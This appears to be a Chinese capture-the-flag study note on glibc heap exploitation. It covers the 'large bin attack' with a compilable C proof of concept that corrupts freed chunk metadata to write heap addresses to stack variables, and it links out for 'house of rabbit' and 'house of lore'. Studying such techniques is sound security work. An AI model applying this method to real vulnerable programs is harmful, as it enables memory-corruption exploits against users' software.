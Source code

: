 
#### Large bin attack

条件：
1.存在UAF或者其他漏洞能够修改同一个largbin的bk和bk_nextsize
效果
2.任意地址写堆地址。（任意地址写大数）

poc

```c
 // gcc -g -no-pie hollk.c -o hollk
 #include <stdio.h>
 #include <stdlib.h>

 int main()
 {
     unsigned long stack_var1 = 0;
     unsigned long stack_var2 = 0;
     fprintf(stderr, "stack_var1 (%p): %ld\n", &stack_var1, stack_var1);
     fprintf(stderr, "stack_var2 (%p): %ld\n\n", &stack_var2, stack_var2);
     unsigned long *p1 = malloc(0x320);
     malloc(0x20);
     unsigned long *p2 = malloc(0x400);
     malloc(0x20);
     unsigned long *p3 = malloc(0x400);
     malloc(0x20);
     free(p1);
     free(p2);
     void* p4 = malloc(0x90);
     free(p3);
     p2[-1] = 0x3f1;
     p2[0] = 0;
     p2[2] = 0;
     p2[1] = (unsigned long)(&stack_var1 - 2); // fake_chunk -> fd = heap_address
     p2[3] = (unsigned long)(&stack_var2 - 4); // fake_chunk2 -> fd_next_size = heap_address
     malloc(0x90);
     fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
     fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);     
     return 0;
 }
```

#### house of rabit

ref: https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-rabbit/



#### house of lore

ref: https://ctf-wiki.org/pwn/linux/user-mode/heap/ptmalloc2/house-of-lore/	





